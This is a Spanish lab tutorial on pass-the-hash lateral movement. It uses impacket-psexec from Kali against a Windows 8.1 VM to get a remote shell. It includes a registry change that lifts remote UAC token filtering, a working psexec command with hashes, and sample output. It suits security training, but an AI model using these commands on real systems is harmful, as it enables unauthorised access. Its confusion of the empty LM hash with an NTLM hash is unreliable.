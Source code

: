 # Práctica de Laboratorio: Movimiento Lateral con Pass-the-Hash (PtH)

**Objetivo:** Utilizar un hash NTLM previamente obtenido para autenticarse en una máquina Windows y obtener una shell remota, sin necesidad de conocer la contraseña en texto plano.

**Escenario:** Este es un ataque de **post-explotación**. El escenario asume que ya has comprometido una máquina y, usando una herramienta como Mimikatz, has extraído el hash NTLM de un usuario. Para este laboratorio, generaremos el hash nosotros mismos para simular que ya lo hemos "robado".

**Máquinas y Servicios Requeridos:**
*   Una VM con Kali Linux (atacante).
*   Una VM con Windows 8.1 (víctima).

**Herramientas:**
*   `impacket-psexec` (parte de la suite Impacket en Kali).

---

## Parte 1: Preparación del Entorno

### Paso 1: Instalar Impacket en Kali

Impacket es una colección de clases de Python para trabajar con protocolos de red. Es fundamental para el pentesting en entornos Windows. Asegúrate de que esté instalada.

```bash
sudo apt-get update
sudo apt-get install python3-impacket
```

### Paso 2: Obtener el Hash NTLM (Simulación)

En un ataque real, obtendrías este hash de la memoria de un sistema comprometido con Mimikatz. Para nuestro laboratorio, vamos a obtener el hash de una cuenta de nuestra propia máquina Windows.

1.  **En la VM de Windows 8.1**, abre un símbolo del sistema (cmd) **como Administrador**.
2.  Windows no almacena los hashes en un formato directamente accesible. Necesitaríamos herramientas de terceros. Para simplificar, **vamos a asumir que hemos extraído el hash NTLM de un usuario**. 

    Por ejemplo, supongamos que el usuario es `m1txel` y su hash NTLM robado es `AAD3B435B51404EEAAD3B435B51404EE`. (Este es un hash vacío, solo para el ejemplo).

    > **Importante:** Para que el ataque funcione, el usuario cuyo hash has robado debe tener permisos de administrador en la máquina destino. En nuestro caso, usaremos el hash de una cuenta que sea administradora en la propia VM de Windows 8.1.

### Paso 3: Desactivar UAC para Sesiones Remotas (Necesario en Windows Modernos)

Por defecto, User Account Control (UAC) en Windows previene que las cuentas locales (que no sean el usuario `Administrator` integrado) realicen tareas administrativas de forma remota, incluso si son del grupo de administradores. Para que PtH funcione contra un usuario administrador que no sea "Administrator", debemos desactivar esta restricción.

1.  **En la VM de Windows 8.1**, abre `regedit`.
2.  Navega a la siguiente clave:
    `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`
3.  Crea un nuevo valor `DWORD (32-bit)`.
4.  Nómbralo `LocalAccountTokenFilterPolicy`.
5.  Modifica su valor y ponlo en `1`.
6.  **Reinicia la máquina Windows** para que el cambio surta efecto.

---

## Parte 2: Ejecución del Ataque Pass-the-Hash desde Kali

Ahora que tenemos el usuario, el hash y la IP de la víctima, podemos lanzar el ataque.

Usaremos `psexec.py` de Impacket. Esta herramienta nos permite ejecutar comandos de forma remota y obtener una shell interactiva.

### Sintaxis del Comando

La sintaxis para Pass-the-Hash con `psexec.py` es:

`psexec.py [dominio]/[usuario]@[IP_VICTIMA] -hashes [LM_HASH]:[NTLM_HASH]`

*   Como es una cuenta local, no especificamos dominio.
*   El hash LM es un formato antiguo y a menudo está vacío. Lo representamos como `AAD3B435B51404EEAAD3B435B51404EE`.

### Ejecución

Reemplaza los valores con los de tu laboratorio.

```bash
# Sintaxis: psexec.py <usuario>@<IP_VICTIMA> -hashes <LM_HASH>:<NTLM_HASH>
# Ejemplo:
psexec.py m1txel@[IP_DE_TU_WINDOWS_8.1] -hashes AAD3B435B51404EEAAD3B435B51404EE:5d2e1b8762181a8a5183a69a33554f59
```

> **Nota:** Deberás reemplazar `5d2e1b8762181a8a5183a69a33554f59` por el hash NTLM real de la cuenta de administrador de tu Windows 8.1. Una forma de obtenerlo en un entorno de laboratorio es cambiar la contraseña del usuario a algo conocido (ej: "Password123"), y luego usar un generador online de hashes NTLM para obtener el hash correspondiente a esa contraseña.

**Resultado:**

Si el ataque tiene éxito, Impacket se autenticará en la máquina Windows, subirá un servicio temporal y te presentará una shell interactiva del sistema víctima:

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on [IP_VICTIMA].....
[*] Found writable share ADMIN$
[*] Uploading file ...
[*] Opening SVCManager on [IP_VICTIMA].....
[*] Creating service ...
[*] Starting service ...
[*] Removing service ...
[*] Closing SVCManager
[*] Sending file ...
[*] Dropping ADMIN$ share

C:\Windows\system32> 
```

¡Felicidades! Ahora tienes una shell `cmd.exe` en la máquina víctima con los privilegios del usuario cuyo hash robaste, y nunca necesitaste saber su contraseña.

Para salir, simplemente escribe `exit`.